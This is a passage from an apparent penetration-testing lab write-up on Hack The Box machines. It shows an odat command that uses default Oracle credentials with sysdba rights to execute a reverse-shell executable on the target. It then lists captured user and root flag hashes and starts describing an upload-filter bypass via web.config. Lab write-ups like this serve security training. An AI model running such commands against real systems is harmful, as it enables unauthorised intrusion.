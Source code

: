    ````bash
   odat externaltable -s 10.10.10.82 -p 1521 -U scott -P tiger -d XE --sysdba --exec c:/ win_revtcp_8000.exe
   ````

   ![image-20201115141030190](.Report.assets/image-20201115141030190.png)

5. From this prompt, I was able to view the contents of the root.txt and user.txt files:
   ![image-20201115141133411](.Report.assets/image-20201115141133411.png)
   user.txt: 92ede778a1cc8d27cb6623055c331617
   root.txt: cd39ea0af657a495e33bc59c7836faf6

### 10.10.10.93 - Bounty

1. Initial enumeration with nmap discovered a web server with a file upload form.  This form restricted the file uploads to specific file extensions, mainly image files, but I found that it accepted web.config as a file as well.
   ![image-20201116194228937](.Report.assets/image-20201116194228937.png)

